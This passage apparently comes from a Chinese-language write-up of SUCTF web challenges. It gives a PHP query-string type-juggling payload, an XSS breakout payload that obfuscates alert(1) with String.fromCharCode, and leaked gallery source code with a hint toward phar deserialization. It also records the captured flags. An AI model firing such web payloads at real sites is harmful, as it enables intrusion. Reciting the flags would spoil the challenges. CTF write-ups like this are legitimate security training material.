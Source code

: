 ```php
?>
```

- 分析源码，构造 payload /?num=0x0&time=3e6
- FLAG: SUCTF{pHp_1s_The_be5t}

### xss1

- payload: ");eval(eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49 ,41)));//
- FLAG: SUCTF{xSS_1s_ea5y_r1ghT?}

### xss2

- jsfuck

### gallery

- 访问页面，在 cookie 中发现了 hint: please read recent papers about phar
- 查看 phar 的漏洞 [phar 漏洞](https://xz.aliyun.com/t/2715)
- 源码泄漏

```php
<?php

setcookie("hint",base64_encode("please read recent papers about phar"));

include('./PicManager.php');
$manager=new PicManager('/var/www/html/sandbox/'.md5($_SERVER['HTTP_X_FORWARDED_FOR']));

if(isset($_GET['act'])){
  switch($_GET['act']){
    case 'upload':{
        if($_SERVER['REQUEST_METHOD']=='POST'){
            $manager->upload_pic();
        }
        break;
    }
    case 'get':{
        print $manager->get_pic($_GET['pic']);
        exit;
    }
    case 'clean':{
        $manager->clean();
        break;
    }
    default:{
        break;
    }
  }
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf8" />
<title>GALLERY</title>
<link rel="stylesheet" type="text/css" href="demo.css" />
<link rel="stylesheet" href="jquery-ui.css" type="text/css" media="all" />
<link rel="stylesheet" type="text/css" href="fancybox/jquery.fancybox-1.2.6.css" />
<script
  src="https://code.jquery.com/jquery-3.3.1.min.js"
  integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8="
  crossorigin="anonymous"></script>
```